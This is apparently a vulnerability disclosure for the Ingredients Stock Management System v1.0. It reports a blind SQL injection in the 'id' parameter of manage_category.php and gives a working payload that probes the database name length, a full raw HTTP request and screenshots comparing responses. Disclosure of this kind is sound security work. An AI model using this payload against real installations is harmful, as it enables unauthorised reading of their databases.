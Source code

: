 # Ingredients Stock Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15364/ingredients-stock-management-system-phpoop-free-source-code.html

Vulnerability File: /isms/admin/categories/manage_category.php

Vulnerability location: /isms/admin/categories/manage_category.php, id

db_name = isms_db;length=7

[+] Payload: isms/admin/categories/manage_category.php?id=3%27%20and%20length(database())%20=%207--+ // Leak place ---> id

```sql
GET /isms/admin/categories/manage_category.php?id=3%27%20and%20length(database())%20=%207--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=2m880botn1u43hd2gu23ttj4ug
Connection: close
```

When length (database ()) = 7
![image](https://user-images.githubusercontent.com/54017627/179384079-b6cd4917-f2a9-460d-b06b-19f01044630a.png)


When length (database ()) = 6
![image](https://user-images.githubusercontent.com/54017627/179384085-b48062ca-2266-43a3-b40f-54efda20cdf7.png)
